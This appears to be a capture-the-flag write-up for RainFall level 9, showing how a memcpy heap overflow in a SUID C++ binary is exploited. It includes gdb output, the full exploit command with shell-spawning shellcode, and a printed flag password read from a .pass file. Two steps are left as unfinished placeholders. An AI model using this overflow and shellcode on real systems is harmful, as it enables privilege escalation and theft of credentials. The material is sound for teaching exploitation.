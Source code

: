 # Level 9

## Vulnerability

```memcpy()``` buffer overflow

## Context

We find a binary with owner bonus0 and SUID.
```
level9@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```
When run, it does nothing.
```
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 hi
level9@RainFall:~$ ./level9 oh hi
level9@RainFall:~$
```

## Solution

Giving one long argument causes a segfault. We find the maximum input is 108 characters before segfaulting.
```
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 108')
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 109')
Segmentation fault (core dumped)
```

Investigating with gdb, we find this binary is compiled from C++ source code. 5 functions of class ```N``` stand out.
```
(gdb) info functions
...
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
...
```
Globally, ```main()``` initializes two instances (```a``` & ```b```) of class ```N``` which contain:
1. a number (int)
2. a function pointer
3. an annotation (string)

Then ```main()``` calls ```setAnnotation()``` which calls ```memcpy()```, copying ```argv[1]``` into a buffer ```a->annotation```. ```memcpy()``` copies strlen(argv[1]) bytes, meaning we can easily overflow the buffer.

Finally ```main()``` executes the function ```b->func```.

Can we simply (like previous levels) write our [malicious code which opens a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) in buffer ```a->annotation```, then overwrite EIP with the address of our malicious code? Unfortunately, using the following example and [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we don't seem to be able to reach and overwrite EIP.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4...
...
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```
However, because we created ```b``` after ```a``` on the heap, we can use the ```memcpy()``` overflow to overwrite both ```a``` and ```b```. So can we overwrite ```b->func``` with the address of our malicious code in ```a->annotation``` and have ```main()``` call our malicious code for us? Not quite so simple...

```main()``` executes a function dereferenced twice (a pointer to a pointer to a function), so we overwrite ```b->func``` with the address of a pointer to our maicious code.

Find address of buffer ```a->annotation```...!!!!!!!!!!!!!!!!!!!!
Find address of ```b->func```...!!!!!!!!!!!!!!!!!!!!

### Build exploit string

So we build our exploit string:
1. address of malicious code - ```\x10\xa0\x04\x08```
2. malicious code which opens a shell - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80```
3. buffer until we reach ```b->func``` - ```"A" * 76```
4. address of address of malicious code (1.) - ```\x0c\xa0\04\x08```

```
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
